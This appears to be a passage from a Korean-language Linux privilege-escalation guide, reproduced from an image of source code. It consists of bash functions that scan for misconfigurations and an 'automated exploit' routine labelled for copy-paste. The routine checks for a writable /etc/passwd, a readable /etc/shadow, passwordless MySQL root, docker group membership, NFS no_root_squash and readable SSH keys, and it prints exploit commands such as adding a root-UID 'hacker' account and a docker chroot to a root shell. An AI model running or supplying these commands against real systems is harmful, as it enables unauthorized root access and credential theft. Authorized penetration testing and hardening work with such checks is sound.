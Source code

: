 ```bash

    echo -e "\n[+] Group memberships:"
    groups
    id

    echo -e "\n[+] Docker access:"
    docker ps 2>/dev/null && echo "Docker access available"

    echo -e "\n[+] Sudo configuration:"
    sudo -l 2>/dev/null
}

# 실행
misconfig_scan
```

### 🎯 자동 익스플로잇 테스트

```bash
# 자동 misconfiguration 익스플로잇 테스트 (복붙용)
auto_misconfig_exploit() {
    echo "=== AUTOMATED MISCONFIGURATION EXPLOITS ==="

    # /etc/passwd 쓰기 권한 테스트
    if [ -w /etc/passwd ]; then
        echo "[!] /etc/passwd is writable!"
        echo "Exploit: echo 'hacker:\$6\$salt\$hash:0:0:root:/root:/bin/bash' >> /etc/passwd"
    fi

    # /etc/shadow 읽기 권한 테스트
    if [ -r /etc/shadow ]; then
        echo "[!] /etc/shadow is readable!"
        echo "Exploit: Extract and crack password hashes"
    fi

    # MySQL 접근 테스트
    if mysql -u root -e "SELECT 1;" 2>/dev/null; then
        echo "[!] MySQL root access without password!"
        echo "Exploit: UDF or privilege escalation via MySQL"
    fi

    # Docker 그룹 테스트
    if groups | grep -q docker; then
        echo "[!] User is in docker group!"
        echo "Exploit: docker run -v /:/mnt --rm -it alpine chroot /mnt sh"
    fi

    # NFS no_root_squash 테스트
    if grep -q "no_root_squash" /etc/exports 2>/dev/null; then
        echo "[!] NFS with no_root_squash found!"
        echo "Exploit: Mount NFS and create SUID binary"
    fi

    # SSH 키 접근 테스트
    ssh_keys=$(find /home -name "id_rsa" -readable 2>/dev/null)
    if [ ! -z "$ssh_keys" ]; then
        echo "[!] Readable SSH private keys found:"
        echo "$ssh_keys"
    fi
}

# 실행
auto_misconfig_exploit
```